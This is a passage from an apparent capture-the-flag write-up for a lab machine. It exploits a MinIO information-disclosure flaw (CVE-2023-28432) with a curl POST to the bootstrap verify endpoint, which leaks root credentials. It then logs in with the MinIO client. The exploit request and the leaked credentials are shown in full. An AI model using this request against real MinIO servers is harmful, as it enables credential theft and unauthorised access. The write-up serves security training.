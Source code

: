 
### MinIO bug&#x20;

If we search the version number on google we find this article

{% embed url="https://blog.min.io/security-advisory-stackedcves/" %}

{% embed url="https://www.sentinelone.com/blog/cve-2023-28432/" %}

```javascript
The vulnerability exists in the API endpoint 
http://your-ip:9000/minio/bootstrap/v1/verify. 
Use the POC mentioned above by sending the request to retrieve 
all environment variables.
```

Lets try curl the endpoint with the above URL.

```bash
─➤  curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify | jq

<< SNIPPED >>

  "MinioEnv": {
    "MINIO_ACCESS_KEY_FILE": "access_key",
    "MINIO_BROWSER": "off",
    "MINIO_CONFIG_ENV_FILE": "config.env",
    "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
    "MINIO_PROMETHEUS_AUTH_TYPE": "public",
    "MINIO_ROOT_PASSWORD": "GkpjkmiVmpFuL2d3oRx0",
    "MINIO_ROOT_PASSWORD_FILE": "secret_key",
    "MINIO_ROOT_USER": "5GrE1B2YGGyZzNHZaIww",
    "MINIO_ROOT_USER_FILE": "access_key",
    "MINIO_SECRET_KEY_FILE": "secret_key",
    "MINIO_UPDATE": "off",
    "MINIO_UPDATE_MINISIGN_PUBKEY": "RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
  }
}
                                                                                              
```

YESSSSSS.... we got secret username and password.....

* Install `mc` to interact with the minIO instance

## User shell

Minio client&#x20;

```bash
╰─➤  ./mc alias set skyfall http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0                                                                                                                                130 ↵
mc: Configuration written to `/home/kali/.mc/config.json`. Please update your access credentials.
mc: Successfully created `/home/kali/.mc/share`.
mc: Initialized share uploads `/home/kali/.mc/share/uploads.json` file.
mc: Initialized share downloads `/home/kali/.mc/share/downloads.json` file.
Added `skyfall` successfully.
```

